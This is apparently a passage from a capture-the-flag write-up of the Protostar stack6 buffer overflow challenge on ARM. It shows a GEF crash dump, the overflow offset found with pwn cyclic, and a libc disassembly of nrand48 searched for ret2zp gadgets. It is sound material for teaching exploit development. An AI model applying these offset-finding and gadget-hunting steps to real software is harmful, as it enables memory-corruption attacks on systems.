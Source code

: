 ```code
0x7efff45c│+0x0014: 0x7efff5a4  →  0x7efff6ea  →  "/home/pi/protostar/stack6/stack6"
0x7efff460│+0x0018: 0x00000001
0x7efff464│+0x001c: 0x000105a8  →  <main+0> push {r11,  lr}
───────────────────────────────────────────────────────────────────────────────────────────────── code:arm:ARM ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x61616172
────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "stack6", stopped 0x61616172 in ?? (), reason: SIGBUS
──────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────

```

We can see the program fails trying to jump to `0x61616172` and, as explained in the `stack4` writeup, we have to check, due to LSB, if the address is `0x61616172` or `0x61616173`.  
In the [CPSR](http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.ddi0311d/ch02s04s02.html) (Current Program Status Register) we can see the `thumb` flag is lowercase so the value is 0 and the address to check is `0x61616172` (if we want to perform a more detailed check about this or we don't have gef-dashboard I suggest to check my writeup about the `stack4`).

We can now calculate our offset  
```code
pi@raspberrypi:~/build_ret $ pwn cyclic -l 0x61616172
68
```

and now we can start to look for the values needed to execute a ret2zp.


As suggested in the blogpost, we can take a look to `nrand48` or `lrand48`, both of them libc functions.

```code
gef➤  disassemble nrand48
Dump of assembler code for function nrand48:
   0x76e9ac04 <+0>:	ldr	r3, [pc, #72]	; 0x76e9ac54 <nrand48+80>
   0x76e9ac08 <+4>:	ldr	r12, [pc, #72]	; 0x76e9ac58 <nrand48+84>
   0x76e9ac0c <+8>:	add	r3, pc, r3
   0x76e9ac10 <+12>:	push	{r4, lr}
   0x76e9ac14 <+16>:	sub	sp, sp, #8
   0x76e9ac18 <+20>:	ldr	r4, [r3, r12]
   0x76e9ac1c <+24>:	ldr	r1, [pc, #56]	; 0x76e9ac5c <nrand48+88>
   0x76e9ac20 <+28>:	mov	r2, sp
   0x76e9ac24 <+32>:	ldr	r3, [r4]
   0x76e9ac28 <+36>:	add	r1, pc, r1
   0x76e9ac2c <+40>:	str	r3, [sp, #4]
   0x76e9ac30 <+44>:	bl	0x76e9adec <__nrand48_r>
   0x76e9ac34 <+48>:	ldr	r2, [sp, #4]
   0x76e9ac38 <+52>:	ldr	r3, [r4]
   0x76e9ac3c <+56>:	ldr	r0, [sp]
   0x76e9ac40 <+60>:	cmp	r2, r3
   0x76e9ac44 <+64>:	bne	0x76e9ac50 <nrand48+76>
   0x76e9ac48 <+68>:	add	sp, sp, #8
   0x76e9ac4c <+72>:	pop	{r4, pc}
   0x76e9ac50 <+76>:	bl	0x76f546ac <__stack_chk_fail>
   0x76e9ac54 <+80>:	andseq	r10, r1, r12, ror #7
   0x76e9ac58 <+84>:	andeq	r0, r0, r12, asr #2
   0x76e9ac5c <+88>:	andseq	sp, r1, r8, lsl #10
End of assembler dump.
```
